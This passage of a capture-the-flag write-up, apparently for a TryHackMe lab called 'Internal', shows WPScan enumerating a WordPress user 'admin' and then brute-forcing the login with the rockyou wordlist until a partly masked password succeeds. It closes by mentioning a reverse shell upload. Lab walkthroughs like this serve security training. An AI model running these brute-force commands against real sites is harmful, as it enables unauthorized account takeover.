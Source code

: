 ```
[+] URL: http://10.10.151.247/blog/ [10.10.151.247]
[+] Started: Mon Aug 24 22:44:56 2020

Interesting Finding(s):

...

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=====================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

We found a valid user: `admin`

Let's use WPScan again to brute-force the login page and gain administrative access to the WordPress CMS.

```
root@kali:~/Desktop/THM/Internal# wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.1
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.151.247]
[+] Started: Mon Aug 24 22:57:09 2020

Interesting Finding(s):

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / m*****ys                                           
```

`/blog/wp-admin/`
![alt text](https://i.imgur.com/6hITmCC.png "Admin Panel")
Now that we're authenticated as admin, we can edit, view, and delete any post or even upload a reverse shell!
